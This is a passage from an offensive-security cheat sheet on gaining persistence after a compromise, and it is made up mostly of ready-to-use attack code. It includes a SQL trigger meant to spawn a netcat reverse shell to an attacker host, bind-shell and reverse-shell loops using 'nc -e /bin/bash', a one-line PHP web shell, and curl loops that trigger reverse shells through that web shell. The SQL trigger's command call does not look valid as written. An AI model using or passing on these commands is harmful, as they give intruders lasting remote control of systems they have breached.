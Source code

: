 	DELIMITER ;
	```

#### Persistent SQL Triggers
- **Create a Trigger to Execute a Backdoor Command:**
	```sql
	CREATE TRIGGER my_trigger 
	BEFORE INSERT ON users 
	FOR EACH ROW 
	BEGIN 
	    DECLARE cmd CHAR(255); 
	    SET cmd='nc -e /bin/bash <attacker_ip> <attacker_port>'; 
	    DO SYSTEM(cmd); 
	END;
	```

# Network-Based Persistence

## Persistent Shells

#### Bind Shell Persistence
- **Create a Bind Shell Using Netcat:**
	```bash
	while true; do nc -lp <attack_port> -e /bin/bash; sleep 60; done &
	```

#### Reverse Shell Persistence
- **Create a Reverse Shell Using Netcat:**
	```bash
	nohup nc -e /bin/bash <attacker_ip> <attacker_port> &
	```
- **Or:**
	```bash
	echo "while true; do nc -e /bin/bash <attacker_ip> <attacker_port>; sleep 60; done" > ~/persistent_reverse.sh
	chmod +x ~/persistent_reverse.sh
	nohup ~/persistent_reverse.sh &
	```

## Web Shells

#### Leveraging Web Shells
- **Upload a Simple PHP Web Shell:**
	```php
	<?php system($_GET['cmd']); ?>
	```
- **Invoke Commands via Web Shell:**
	```bash
	curl "http://target.com/shell.php?cmd=id"
	```
- **Create a Persistent Web Shell Listener:**
	```bash
	while true; do curl "http://target.com/shell.php?cmd=nc -e /bin/bash <attacker_ip> <attacker_port>"; sleep 60; done
	```
